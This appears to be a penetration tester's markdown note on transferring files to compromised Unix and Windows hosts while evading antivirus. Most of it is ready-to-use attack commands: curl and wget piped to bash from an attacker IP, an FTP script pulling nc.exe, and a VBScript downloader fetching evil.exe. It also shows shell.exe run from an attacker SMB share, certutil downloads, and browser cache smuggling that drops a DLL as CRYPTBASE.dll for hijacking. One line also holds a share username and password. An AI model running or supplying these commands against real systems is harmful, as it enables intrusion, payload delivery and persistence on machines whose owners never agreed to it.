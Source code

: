 One of the biggest problem on this phase are **anti viruses**.
A great method to bypass this issue is to use legitimate administrative tools. Second problem is the non-interactive shell. We have to use non-interactive tools to achieve our goals to upload files it we do not have a full interactive shell.

## Hosting files

Files have to be hosted somewhere in order to be downloaded after. The most common places are:

- [HTTP Server](../Dev,%20scripting%20&%20OS/Dynamic%20Servers.md#HTTP%20Server)
- [FTP Server](../Dev,%20scripting%20&%20OS/Dynamic%20Servers.md#FTP%20Server)
- [SMB](../Dev,%20scripting%20&%20OS/Dynamic%20Servers.md#SMB)

---

# Unix tools and methods

- **curl**
    
    ```bash
    curl 192.168.119.209/file.sh -o file.sh		# save file locally
    curl 192.168.119.209/file.sh | bash			# in memory execution
    ```
    
- **wget**
    
    ```bash
    wget 192.168.119.209/file.sh -O file.sh		# save file locally
    wget -O - 192.168.119.209/file.sh | bash	# in memory execution
    ```
    
- [netcat](../Tools/netcat.md#File%20transfer)
- **scripting languages**
- **scp**
- **pure-ftpd**
- **HTTP/HTTPS**

---

# Windows tools and methods

## FTP Script (`ftp -s`)

Server: [FTP Server](../Dev,%20scripting%20&%20OS/Dynamic%20Servers.md#FTP%20Server)
Script:

```powershell
echo open 10.11.0.4 21> ftp.txt
echo USER offsec>> ftp.txt
echo lab>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
```

Shell command:

```powershell
C:\Users\offsec> ftp -v -n -s:ftp.txt
```

## TFTP

[TFTP - Trivial File Transfer Protocol](../Services/TFTP%20-%20Trivial%20File%20Transfer%20Protocol.md) is a UDP based file transfer protocol, often restricted by egress firewall rules. Old version of Windows (up to XP and 2003) contains it as default.
Server: [TFTP Server](../Dev,%20scripting%20&%20OS/Dynamic%20Servers.md#TFTP)
Client:

```powershell
C:\Users\Offsec> tftp -i 10.11.0.4 put important.docx
Transfer successful: 359250 bytes in 96 second(s), 3712 bytes/s

C:\Users\Offsec> tftp -i 10.11.0.4 get important.docx
Transfer successful: 359250 bytes in 96 second(s), 3712 bytes/s
```

## VB Script (`cscript wget.vbs`)

Copy-Paste sequence:

```visual-basic
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

Shell command:

```powershell
C:\Users\Offsec> cscript wget.vbs http://10.11.0.4/evil.exe evil.exe
```

## Powershell
[File Transfer](../Dev,%20scripting%20&%20OS/Powershell%20for%20pentesters.md#File%20Transfer) using built-in Powershell features

## Assembling disassembled binary (`exe2hex` and `exe2bat`)

Disassembling the original program:

```bash
kali@kali:~$ upx -9 nc.exe
	Ultimate Packer for eXecutables
	Copyright (C) 1996 - 2018
	UPX 3.95 Markus Oberhumer, Laszlo Molnar & John Reiser Aug 26th 2018
	File size Ratio Format Name
	-------------------- ------ ----------- -----------
	59392 -> 29696 50.00% win32/pe nc.exe
Packed 1 file.
kali@kali:~$ exe2hex -x nc.exe -p nc.cmd
[*] exe2hex v1.5.1
[+] Successfully wrote (PoSh) nc.cmd

# Legacy
root@kali:~$ locate exe2bat
root@kali:~$ wine /usr/share/windows-binaries/exe2bat nc.exe nc_legacy.cmd
```

Re-building the program:

```bash
# Incollo i comandi ottenuti con exe2hex

# incollo i comandi ottenuti con exe2bat
debug <123.hex
```

## SMB

Server: [SMB ](../Dev,%20scripting%20&%20OS/Dynamic%20Servers.md#SMB)
Client:

```powershell
C:> net view \\AttackerIP   // Our designated share name should be visible in the output
C:> dir \\AttackerIP\transfer_share
C:> copy \\AttackerIP\transfer_share\shell.exe
C:> \\AttackerIP\transfer_share\shell.exe

# Mounting authenticated shares
PS C:\Program Files (x86)\StorageService> net use \\192.168.119.209 /user:maoutis Qwerty
The command completed successfully.

PS C:\Program Files (x86)\StorageService> net use \\192.168.119.209 /delete
\\192.168.119.209 was deleted successfully.
```

## certutil

```powershell
certutil -urlcache -split -f http://AttackerIP/file C:\path\to\out\file
```

# Alternative and circumstantial situations

## Browser Cache Smuggling

Modern browsers (Firefox) implemented a mechanism that allow them storing static files locally on the computer in order not to reload them every time. This mechanism is called the browser cache, but it will not cache any files proposed by a server, but only static resources.

Our goal is to force the download of either a DLL or an executable. To do so, we’ll simply have to change the content type related to the dll and exe files from: `application/x-msdos-program` to `image/jpg`. and serves it as an image: [^browser-cache-smug]

```html
<img src=evilDll.dll>
```

[^browser-cache-smug]: [Aurélien Chalot - Browser Cache Smuggling](../../Readwise/Articles/Aurélien%20Chalot%20-%20Browser%20Cache%20Smuggling.md)

Because cached files are saved without extension and with a random name, we need to inject some custom metadata in order to find them easily. We can do it using custom Tags on our web server configuration:

```
server {
	listen 80 default_server;
	listen [::]:80 default_server;
	root /var/www/html;
	index index.html index.htm index.nginx-debian.html;
	server_name _;

	# Adding the header used to find the real DLL
	location /evilDll.dll {
		add_header Tag DLLHERE;
	}
}
```

We can find those tags using powershell: 

```powershell
foreach ($f in @("$env:LOCALAPPDATA\Mozilla\Firefox\Profiles\*.default-release\cache2\entries\")){Get-ChildItem $f -Recurse|%{if(Select-String -Pattern "DLLHERE" -Path $_.FullName){copy $_.FullName $env:LOCALAPPDATA\Microsoft\OneDrive\CRYPTBASE.dll}}}
```

## File transfer using WireGuard

`wush` [^wush] is a command line tool that lets you easily transfer files and open shells over a peer-to-peer WireGuard connection. It works both on Linux and Windows. Download the binaries or the source code from [github](https://github.com/coder/wush/releases).

[^wush]: [Erik - Last Week in Security (LWiS) - 2024-09-03](../../Readwise/Articles/Erik%20-%20Last%20Week%20in%20Security%20(LWiS)%20-%202024-09-03.md#^edb065)



---

# External References:

- [https://github.com/LOLBAS-Project/LOLBAS](https://github.com/LOLBAS-Project/LOLBAS)